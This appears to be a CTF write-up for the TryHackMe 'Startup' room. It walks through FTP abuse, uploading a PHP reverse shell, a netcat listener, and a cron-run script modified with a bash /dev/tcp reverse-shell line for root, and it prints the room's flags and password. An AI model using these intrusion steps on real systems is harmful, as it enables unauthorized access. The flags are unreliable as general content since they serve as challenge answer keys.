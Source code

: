 ```yaml
---
title: "THM Startup Walkthrough"
date: "2025-04-01"

layout: ../../layouts/PostLayout.astro
description: "Detail walkthrough on tryhackme machine startup."

img_path : "/images/startup/theme.png"
img_alt: "web image"
---
```


# Try Hack Me Room: Startup

![CTF](/images/startup/startup.png)

## Task1: Welcome to Spice Hut!

![CTF](/images/startup/chilli.png)

“We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own the root. Good luck!”

First let’s start the reconnaissance by doing nmap.

![CTF](/images/startup/nmap.png)

3 ports were open.

Port 80 is open so let’s check the http website

![CTF](/images/startup/webpage.png)

There is only one message left by the dev team.

### What is the secret spicy soup recipe?
Since FTP is open, let’s try to login to ftp as anonymous.

![CTF](/images/startup/ftp.png)

List of files and directories inside ftp

![CTF](/images/startup/ls.png)

Now let’s download those files with the ‘get’ command.


This is the important.jpg 

![CTF](/images/startup/important.jpg)

This the notice.txt 

![CTF](/images/startup/notice.png)

From this notice i found one of the username “Maya”

Next I also change the directory to ftp and ls the directories inside it but there are only hidden files.

![CTF](/images/startup/cdftp.png)

Let’s use ffuf and find the directories in http port.

![CTF](/images/startup/ffuf.png)

I found that /files path is there in http port, now let’s check it out.

![CTF](/images/startup/file.png)

Wow, this is a ftp service. We can use this to get access to the machine by uploading a shell to the FTP service and executing it in our browser. I will upload the php reverse shell file, which I saved in php-reverse-shell.php.

To upload the file to the ftp directory on the FTP service, the command is put php-reverse-shell.php.

![CTF](/images/startup/put.png)

I see that a shell.php file is uploaded. We’ll start a netcat listener using the following command: nc -lvnp 1234

![CTF](/images/startup/netcat.png)

With our listener set up, we can click the php-reverse-shell.php file in our browser.

<b>ANS:</b> love


### What are the contents of user.txt?
We got the password for linnie i.e c4ntg3t3n0ughsp1c3, now let’s login using ssh.

![CTF](/images/startup/pass.png)

BOOM! Here i got the user.txt file and the flag

<b>ANS:</b> THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

### What are the contents of root.txt?
Now it’s time to get the root flag. Linnie has 2 other directories that are Documents and scripts. In scripts directories there is something useful.

![CTF](/images/startup/echo.png)

I could see that planner.sh is running every minute and modifying the contents of startup_list.txt.
we can modify /etc/print.sh. I can put the bash command into the print.sh script:<br>
bash -i >& /dev/tcp/10.10.51.47/4444 0>&1

![CTF](/images/startup/nano.png)

I opened a listener in my terminal and in a minute I received the connection( we need to wait a little).

![CTF](/images/startup/root.png)

Finally list the files and grab the root flag.

<b>ANS:</b> THM{f963aaa6a430f210222158ae15c3d76d}

That’s it for this startup room, see you guys on the next try hack me room walkthrough.
